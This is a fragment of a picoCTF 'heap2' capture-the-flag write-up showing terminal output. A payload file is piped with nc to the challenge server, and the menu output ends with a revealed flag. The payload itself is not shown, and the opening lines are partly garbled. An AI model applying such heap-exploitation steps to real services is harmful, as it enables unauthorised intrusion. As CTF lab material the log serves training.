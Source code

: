 ```css
3. Print x
4. Print Flag
5. Exit

Enter your choice: picoCTF{heap2}
   
┌──(myenv)─(kali㉿kali)-[~/Downloads/heap2]
└─$ cat payload.bin | nc mimas.picoctf.net 63308

I have a function, I sometimes like to call it, maybe you should change it

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: Data for buffer: 
1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: picoCTF{and_down_the_road_we_go_ba77314d}
```
